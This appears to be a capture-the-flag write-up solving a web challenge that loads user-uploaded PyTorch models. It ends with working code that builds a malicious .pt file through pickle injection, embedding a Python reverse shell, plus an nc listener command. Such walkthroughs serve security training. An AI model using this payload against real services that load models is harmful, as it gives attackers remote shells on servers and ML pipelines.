 # Persuade CTF :arrow_forward: Solution

Lets explore the application :eyes:, it has an Upload and Analyze function. Application is expecting file with .pt extension. With a bit of googling we can know that .pt files are machine learning models created with PyTorch.

Looking at the Analyze function, we have the option to select the already available model "safe_model.pt" from dropdown menu and input a statement for sentiment analysis :computer:.

![Alt text](../Images/Web_App1.PNG?raw=true "Web_App1")

![Alt text](../Images/Web_App2.PNG?raw=true "Web_App2")

Well, that's it. We just know application can do sentiment analysis on user inputs on custom models provided by the user or its on in-build model. But we don't know what model is already available in the application expect its name, which is a custom name and of no use :no_good: for us.

Hmmm... Maybe we will start with a normal dirb to get more info, if application is hiding :alien: something in its directories.

![Alt text](../Images/Dirb_Scan.PNG?raw=true "Dirb_Scan")

Looks like application has robots.txt :page_facing_up:, Ah classic..

![Alt text](../Images/Robots_txt.PNG?raw=true "Robots_txt")

Base64 encoded string (L2JhY2tlbmRfZG9jcy9teWZpbGUudHh0==) sure looks interesting, lets decode it.

![Alt text](../Images/base64.PNG?raw=true "base64")

Yep, its an URL path to a txt file, will access the same in browser.

![Alt text](../Images/backend_docs.PNG?raw=true "backend_docs")

This looks like a break through. This can be actual name of the model used in the application. Only one way to know. A quick google search :mag: reveals cardiffnlp/twitter-roberta-base-sentiment is model available in https://huggingface.co/cardiffnlp/twitter-roberta-base-sentiment :boom:. 

That's again good news, at least its not a rabbit hole :rabbit:. And huggingface has code to download and use the model. 

![Alt text](../Images/huggingface.PNG?raw=true "huggingface")

Lets download the model. Had been always in love :sparkling_heart: with Google Colab for running code related to machine learning.

```python
#Note: This code works well in Google Colab
  
!pip install -q torch==2.0.1
!pip install -q transformers==4.31.0
!pip install -q scipy==1.11.1

import torch
import os
from transformers import AutoModelForSequenceClassification

# Save a model for sentiment analysis
model_directory = "SavedModels"
if not os.path.isdir(model_directory):
    os.mkdir(model_directory)

safe_model_path = os.path.join(model_directory, "saved_model.pt")

task = "sentiment"
MODEL = f"cardiffnlp/twitter-roberta-base-{task}"
# PT
model = AutoModelForSequenceClassification.from_pretrained(MODEL)
torch.save(model,safe_model_path)
```

Now we have the model (saved_model.pt) which is used by the application in its backend. What's next :question: Remember how we identified in beginning that .pt files are machine learning models created with PyTorch. Maybe exploring PyTorch gives us some hints :zap:. Two particular methods (torch.save https://pytorch.org/docs/stable/generated/torch.save.html & torch.load https://pytorch.org/docs/stable/generated/torch.load.html) from PyTorch looks interesting. Below snippet is taken from PyTorch docs which tells us while a model is being loaded in the application PyTorch uses pickle module :file_folder: for deserializing the model file.

![Alt text](../Images/torch_issue.PNG?raw=true "torch_issue")

If you are into security domain, you should know how dangerous :skull: pickle module can be. Back into our CTF, we know application accepts custom model file from user and load that file for sentiment analyzes using PyTorch. Maybe the downloaded model is already malicious :japanese_ogre:, lets make sure its not using modelscan https://github.com/protectai/modelscan. 

`modelscan -p safe_model.pt`

![Alt text](../Images/modelscan.PNG?raw=true "modelscan")

Its not a malicious model after all :exclamation:. But we know there is a possibility for us to make a malicious model file with PyTorch and pickle module. Yet how can we make a model? :thought_balloon: We don't have enough training data or even enough hardware requirements to build and train a model. No worries, we can leverage modelscan's https://github.com/protectai/modelscan/blob/main/notebooks/utils/pickle_codeinjection.py to build a malicious model. We can tweak the saved model (saved_model.pt) to have malicious character. Lets head into Colab once more and execute below code blocks in same notebook you used to download safe_model.pt

`!git clone https://github.com/protectai/modelscan.git`

```python
#Note: This code works well in Google Colab

!git clone https://github.com/protectai/modelscan.git

import torch
import os
from modelscan.notebooks.utils.pickle_codeinjection import PickleInject, get_payload

command = "system"
malicious_code = """python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",9000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    """

unsafe_model_path = os.path.join(model_directory, "unsafe_model_pyshell.pt")

payload = get_payload(command, malicious_code)
torch.save(
    torch.load(safe_model_path),
    f=unsafe_model_path,
    pickle_module=PickleInject([payload]),
)
```

And we got our malicious model (unsafe_model_rshell.pt) :space_invader:. Lets try that in the application. Before that make sure, you have a listener up `nc -lvnp 9000`

Hurray :sunglasses:, once we upload model unsafe_model_rshell.pt in application and select that model to run the sentiment analysis on a statement, we can see the application loads our model with torch.load which unpickles our arbitrary code in model and gives us a reverse shell plus proper sentiment analysis result in web application. 

![Alt text](../Images/Unsafemodel_1.PNG?raw=true "Unsafemodel_1")

![Alt text](../Images/Unsafemodel_2.PNG?raw=true "Unsafemodel_2")
